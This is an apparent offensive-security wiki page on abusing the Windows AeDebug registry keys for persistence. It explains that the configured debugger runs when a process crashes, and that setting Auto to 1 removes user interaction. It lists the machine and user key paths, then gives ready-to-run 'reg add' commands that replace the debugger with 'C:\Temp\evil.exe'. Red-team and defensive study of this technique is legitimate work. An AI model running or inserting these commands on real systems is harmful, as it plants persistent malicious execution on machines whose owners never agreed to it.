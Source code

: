 # AEDebug Keys

## Theory

The executable in the Debugger property is run when a process crashes. Gained access depends on whose context the debugged process runs in; if the Auto property of the same registry key is set to 1, the debugger starts without user interaction.

{% hint style="info" %}
&#x20;A value of `C:\Windows\system32\vsjitdebugger.exe` might be seen if you have Visual Studio Community installed.
{% endhint %}

## Practice

{% hint style="success" %}
Registry entries under `HKU/HKCU` will only apply to the user.\
Registry entries under `HKLM` will apply to everyone
{% endhint %}

{% tabs %}
{% tab title="AeDebug" %}
You can run a malicious code instead of the debugger by editing `Auto` and `Debugger` values under following keys:

* `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug`
* `HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug`
* `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`
* `HKCU\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug`

```powershell
# Starts without user interaction
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /d 1
# Edit debugger
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"

#Or

# Starts without user interaction
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Auto" /d 1
# Edit debugger
reg add "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\AeDebug" /v "Debugger" /d "C:\Temp\evil.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.hexacorn.com/blog/2013/09/19/beyond-good-ol-run-key-part-4/" %}

